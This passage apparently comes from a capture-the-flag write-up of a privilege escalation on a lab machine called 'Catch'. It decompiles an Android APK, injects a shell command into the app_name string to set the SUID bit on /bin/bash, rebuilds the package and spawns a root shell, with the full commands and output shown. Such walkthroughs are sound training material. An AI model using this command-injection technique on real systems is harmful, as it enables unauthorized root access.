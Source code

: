 ```
$ java -jar apktool_2.6.1.jar d catchv1.0.apk -o decompiled
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.6.1 on catchv1.0.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

Then, we edit the `app_name` variable located within `res/values/strings.xml`:

```markup
<string name="app_name">Catch$(chmod u+s /bin/bash)</string>
```

Then, we need to recompile this entire thing again.

```
$ java -jar apktool_2.6.1.jar b -f decompiled -o pwn.apk   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.6.1
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...
```

Then, download this file into the `/opt/mdm/apk_bin` file and wait a bit. The `/bin/bash` file would be an SUID binary, and we can spawn a root shell:

```
will@catch:/opt/mdm/apk_bin$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
will@catch:/opt/mdm/apk_bin$ /bin/bash -p
bash-5.0# id
uid=1000(will) gid=1000(will) euid=0(root) groups=1000(will)
```

Rooted!
